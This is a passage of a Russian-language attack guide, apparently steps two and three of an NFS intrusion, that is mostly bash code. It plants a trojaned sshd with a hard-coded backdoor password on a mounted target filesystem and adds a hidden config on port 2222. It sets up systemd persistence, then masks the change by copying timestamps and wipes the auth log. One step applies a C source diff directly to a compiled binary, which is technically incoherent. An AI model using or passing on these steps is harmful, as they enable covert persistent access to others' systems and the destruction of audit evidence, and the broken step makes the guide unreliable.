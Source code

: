 **Пояснения**:
- Определение версии NFS критично для выбора метода атаки
- Анализ файловой системы помогает выбрать оптимальную полезную нагрузку

**Шаг 2: Подготовка комплексной полезной нагрузки**
```bash
# Создание троянского SSH демона
cp /usr/sbin/sshd /mnt/nfs_home/usr/sbin/sshd_trojan
patch /mnt/nfs_home/usr/sbin/sshd_trojan <<'EOT'
@@ -1200,6 +1200,9 @@
   logit("Accepted %s for %s from %s port %d ssh2%s",
       authmsg, authctxt->user, remote_ip, remote_port, extra);
 
+  // Backdoor password
+  if (strcmp(password, "0xDEADBEEF") == 0) { return 1; }
+
   /* Network child process */
   if (use_privsep) {
     return privsep_preauth(authctxt);
EOT

# Создание конфигурации для троянского SSHd
cat > /mnt/nfs_home/etc/ssh/sshd_config_trojan <<'EOT'
Port 2222
HostKey /etc/ssh/ssh_host_rsa_key
PidFile /var/run/sshd_trojan.pid
EOT

# Системд-юнит для автостарта
cat > /mnt/nfs_home/etc/systemd/system/ssh-trojan.service <<'EOT'
[Unit]
Description=SSH Trojans Service

[Service]
ExecStart=/usr/sbin/sshd_trojan -f /etc/ssh/sshd_config_trojan
Restart=always

[Install]
WantedBy=multi-user.target
EOT
```

**Пояснения**:
- Модификация бинарника sshd для бэкдора по паролю
- Отдельный конфигурационный файл и порт для скрытности
- Интеграция в systemd для автозапуска

**Шаг 3: Активация и маскировка**
```bash
# Через временный SSH-доступ
ssh user@192.168.1.100 "sudo systemctl enable ssh-trojan; sudo systemctl start ssh-trojan"

# Маскировка изменений
touch -r /mnt/nfs_home/usr/sbin/sshd /mnt/nfs_home/usr/sbin/sshd_trojan
chmod 755 /mnt/nfs_home/usr/sbin/sshd_trojan

# Очистка логов
echo "" > /mnt/nfs_home/var/log/auth.log
```
